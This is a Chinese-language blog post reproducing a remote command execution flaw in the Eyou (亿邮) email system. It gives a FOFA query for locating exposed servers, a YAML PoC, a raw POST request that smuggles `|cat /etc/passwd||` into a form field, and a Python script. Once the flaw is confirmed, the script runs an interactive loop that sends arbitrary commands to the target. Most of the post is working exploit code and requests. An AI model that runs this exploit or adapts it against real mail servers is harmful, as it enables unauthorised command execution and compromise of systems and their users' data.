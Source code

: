 ```yaml
---
title: 亿邮电子邮件系统RCE
tags:
  - vuln
  - PoC
categories:
  - 漏洞复现
copyright: true
abbrlink: e09aeac0
date: 2021-07-13 00:16:08
---
```


![](https://z3.ax1x.com/2021/07/13/WFHmrV.jpg)
<!--more-->

HW漏洞，亿邮电子邮件系统存在远程命令执行漏洞，可执行任意命令。

**验证**

 fofa `body="亿邮电子邮件系统"`

​	登录页面这样子：

![img](https://z3.ax1x.com/2021/07/13/WFbJYQ.png)

写个PoC验证一下

```yaml
name: poc-yaml-eyou-email-rce
rules:
  - method: POST
    path: "/webadm/?q=moni_detail.do&action=gragh"
    headers:
      Content-Type: application/x-www-form-urlencoded
    follow_redirects: false
    body: |
      type='|cat /etc/passwd||'
    expression: |
      response.status == 200 && response.body.bcontains(bytes(string("root")))
detail:
  author: Secde0(https://www.cnblogs.com/Secde0/)
  links:
    - https://github.com/PeiQi0/PeiQi-WIKI-POC/blob/PeiQi/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E4%BA%BF%E9%82%AE/%E4%BA%BF%E9%82%AE%E7%94%B5%E5%AD%90%E9%82%AE%E4%BB%B6%E7%B3%BB%E7%BB%9F%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

```

结果如下：

![img](https://z3.ax1x.com/2021/07/13/WFb1w8.png)

发送请求包：

```sqlite
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 36.x.x.x:88
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```

`cat /etc/passwd`

![img](https://z3.ax1x.com/2021/07/13/WFbGFg.png)

当前网络连接情况：

![img](https://z3.ax1x.com/2021/07/13/WFb3TS.png)

PY脚本

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Eyou Email SYSTEM                                       \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> whoami                                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, cmd):
    vuln_url = target_url + "/webadm/?q=moni_detail.do&action=gragh"
    headers = {
            "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "type='|cat /etc/passwd||'"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}//webadm/?q=moni_detail.do&action=gragh \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功执行 cat /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/webadm/?q=moni_detail.do&action=gragh"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "type='|{}||'".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    cmd = 'cat /etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, cmd)
```

**Reference**

http://wiki.peiqi.tech/PeiQi_Wiki/Web%E5%BA%94%E7%94%A8%E6%BC%8F%E6%B4%9E/%E4%BA%BF%E9%82%AE/%E4%BA%BF%E9%82%AE%E7%94%B5%E5%AD%90%E9%82%AE%E4%BB%B6%E7%B3%BB%E7%BB%9F%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html

